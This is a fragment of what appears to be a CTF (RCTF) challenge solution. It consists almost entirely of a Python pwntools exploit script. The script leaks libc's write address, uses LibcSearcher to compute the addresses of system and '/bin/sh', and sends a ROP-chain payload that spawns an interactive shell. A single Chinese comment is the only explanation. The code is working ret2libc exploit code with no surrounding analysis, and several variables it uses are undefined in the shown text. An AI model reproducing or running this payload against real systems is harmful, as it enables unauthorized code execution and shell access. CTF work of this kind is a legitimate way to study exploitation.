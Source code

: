 ```python

write_addr = u64(p.recv(8))
print hex(write_addr)

libc=LibcSearcher('write',write_addr)
libcbase=write_addr-libc.dump('write')
system=libcbase+libc.dump('system')
bin_sh=libcbase+libc.dump('str_bin_sh')

p.recvuntil('RCTF\n')
payload ='a'*16+'a'*8
payload+=p64(pop_4)+p64(pop_rdi)+p64(bin_sh)+p64(system) #这里只需要一个参数，所以不用万能gadget也可以。
p.send(payload)
p.interactive()
```



